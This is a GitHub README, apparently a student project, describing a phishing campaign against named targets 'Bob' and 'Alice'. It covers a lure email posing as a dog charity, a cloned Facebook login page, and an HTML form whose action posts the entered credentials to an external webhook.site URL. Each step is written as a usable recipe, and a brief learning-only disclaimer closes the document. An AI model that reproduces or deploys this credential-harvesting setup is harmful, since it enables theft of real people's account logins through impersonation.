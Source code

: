 # Project: Lets's Go Phishing

## Project context

Bob has a dog (a bull terrier) named "Shimi". Bob really loves his dog. Alice is a fan of Mécanique. She has two vintage cars and often likes to parade around with her ancestral objects. Deploy a phishing technique to obtain sensitive information from Bob and Alice

## Goal

The aim to develop compelling email that lures the target into action and obtain their login credentials.

## Steps

To achieve the goal, I have distilled the process into the following steps:

1. Compose html-format text
2. Develop spoofed-website
3. Deploy data-harvesting tool
4. Embed malicious link in email
5. Create legit-looking Email sender address
6. Send mail to recipient


## Compose html-format text

The target is Bob. Since he loves his dog, Shimi, I have created an enticing email purporting to be from a non-governmental organization dubbed 'European Dog Trust' concerned about the welfare of dogs. 

To develop this email, I have utilized HTML and CSS. HTML (Hypertext Markup Language) defines the content and layout whilst CSS (Cascading Stylesheet) enhances the visual appearance of the page by allowing to apply styles such as colors, fonts, spacing, and positioning.

As with every successful phishing content, the html-format email have been carefully crafted _(see photo below)_. First, to appear from legitimate source and then to lure the unsuspecting Bob into action- click on the "Contact Us" button. 
![Phishing mail content](images/phishmail.png)


## Develop Spoofed Website

The interest is in Bob's Facebook login data. To obtain these, develop a spoofed Facebook website. A spoofed website is a fraudulent site designed to mimic a legitimate one, often used for phishing or scamming purposes. 

Templates of Facebook login page code can be found on [Codepen.io](www.codepen.io). The login web page built mirrors the authentic one. See [Login-HTML](FBlogin.html) and [Login-CSS](FBlogin.css)

![FaceBook Login](images/FBlogin.png)

## Deploy Data Harvesting Tool

The intention is to get Bob to interact with the spoofed website and supply credentials to the login page. These data can then be obtain albeit maliciously in the backend through a process dubbed 'Data Harvesting'. Data harvesting refers to the unauthorized collection of sensitive information (personal or financial data) through malicious means.

The data harvesting tool used was [WebHook](www.webhook.site). <br><br>
Steps:
- Launch [WebHook](www.webhook.site)
- Copy your URL (to be used later)

![alt text](images/webhook.png)

## Embed malicious link in email

Now add the webhook URL and a Javascript script tag to the phishing content. In the html-format email body, add a 'form' tag as shown below. The form embedded within the HTML structure serves as a decoy interface to log in to a Facebook. It requests the user's email or phone number and password. When Bob clicks on "Login" button, the session is intercepted and the credential transmitted to the Webhook URL. The captured data can be seen on Webhook in real time

```
<form id="myForm" action="https://webhook.site/d4dadb81-3d7b-4a3e-9650-ddbd953660e9" method= "POST" class="form">
```
![Add Form](images/action.png)

Next create a .js file with the [Javascript code](script.js) and add a script tag at the tail end of the html-format email body as shown below to link the code.

![Javascript Snippet](images/script.png)

Eureka!!!!! ===============================================================================55

Once Bob attempts to login, you can obtain the supplied credential on the webhook site.
![Bob's Credential](images/credential.png)


### Disclaimer:

This documentation is meant solely for the purpose of learning. The author assumes no liability for illegal use, misuse, and/or any damages as a consequence of usage.

